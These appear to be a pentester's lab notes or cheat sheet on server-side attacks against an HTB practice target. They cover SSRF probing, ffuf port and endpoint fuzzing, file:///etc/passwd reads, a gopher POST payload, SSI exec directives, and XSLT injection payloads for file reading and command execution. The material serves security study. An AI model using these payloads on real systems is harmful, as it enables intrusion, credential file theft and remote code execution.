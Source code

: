 # Server-Side Attacks

## SSRF

[OWASP SSRF Page](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/)

### Identification

Based on web app at http://10.129.201.127:34978 that has a drop down to check date availbility through a post parameter (`dateserver=http://dateserver.htb/availability.php&date=2024-01-01`):

- Try pointing the post request to itself to see if the response reflects `dateserver=http://127.0.0.1/index.php&date=2024-01-01`
- Use burp to check post parameter for dynamically loaded content.
- Try changing the request to see if error infromation.
- Start a netcat listener and send a request in the post parameter to it i.e: `dateserver=http://10.10.15.145:8000/ssrf/&date=2024-01-01`.

### Exploitation

- Change POST parameter to `dateserver=file:///etc/passwd&date=2024-01-01` to check for LFI.

- internal portscan by accessing ports on localhost:

```bash
seq 1 10000 > ports.txt
ffuf -w ./ports.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

- accessing restricted endpoints:

```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

- Consider we find and endpoint admin.php through fuzzing which returns a POST form:

![admin.php](../images/admin_php.png)

### Protocols

- `http://127.0.0.1/` or `https://` can be used to access internal or external endpoints
- `file:///etc/passwd` can be used for local file inclusion
- `gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin` can be used to send arbitrary payloads with internal services

## SSTI
### Exploitation
Templating Engines are used to dynamically generate content

### Test String
- `${{<%[%'"}}%\.`

## SSI Injection - Directives
| Directive | Description |
|-----------|-------------|
| `<!--#printenv -->` | Print variables |
| `<!--#config errmsg="Error!" -->` | Change config |
| `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` | Print specific variable |
| `<!--#exec cmd="whoami" -->` | Execute command |
| `<!--#include virtual="index.html" -->` | Include web file |

## XSLT Injection
### Elements
| Element | Description |
|---------|-------------|
| `<xsl:template>` | Indicates an XSL template. Can contain a match attribute that contains a path in the XML-document that the template applies to |
| `<xsl:value-of>` | Extracts the value of the XML node specified in the select attribute |
| `<xsl:for-each>` | Enables looping over all XML nodes specified in the select attribute |
| `<xsl:sort>` | Specifies the node to sort elements in a for loop by in the select argument. A sort order may be specified in the order argument |
| `<xsl:if>` | Used to test for conditions on a node. The condition is specified in the test argument |

### Injection Payloads
#### Information Disclosure
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="system-property('xsl:version')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor')" />` | |
| `<xsl:value-of select="system-property('xsl:vendor-url')" />` | |
| `<xsl:value-of select="system-property('xsl:product-name')" />` | |
| `<xsl:value-of select="system-property('xsl:product-version')" />` | |

#### LFI
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` | |
| `<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` | |

#### RCE
| Payload | Description |
|---------|-------------|
| `<xsl:value-of select="php:function('system','id')" />` | |